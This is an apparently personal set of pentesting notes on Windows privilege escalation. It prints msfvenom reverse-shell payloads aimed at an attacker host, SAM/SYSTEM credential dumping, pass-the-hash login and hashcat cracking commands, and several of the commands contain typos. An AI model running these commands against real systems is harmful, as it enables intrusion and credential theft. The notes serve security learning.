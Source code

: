 ```yaml
---
title: Notes | Windows Privilage Escalation
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [privilage-escalation, windows]
permalink: /notes/system/windows-pe
---
```



# Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves with *net start [service]*).
We can create a reverse shell with **msfvenom**:
```console
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
```
And change the **reverse.exe** name with the service.exe name.

# Saved Credentials
We can execute:
```console
> cmdkey /list
```
to get some credentials.

# SAM and SYSTEM
We can search for those files in ** C:\Windows\Repair**. With those we can get and crack the system's passwords.
For example with **creddump7**:
```console
> python3 creddump7/pwdump.py SYSTEM SAM
```

Then we can log in with the hash or break the hash:
```console
> pth-winexe -U 'admin%hash' //[ip] cmd.exe
```
```console
> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.tx
```

# AlwaysInstalledElevated
If that property is set 1 (we can check it with: **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevate**) we can create a msi with **msfvenom**:
```console
> sfvenom -p windows/x64/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f msi -o reverse.ms
```

# Tools
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

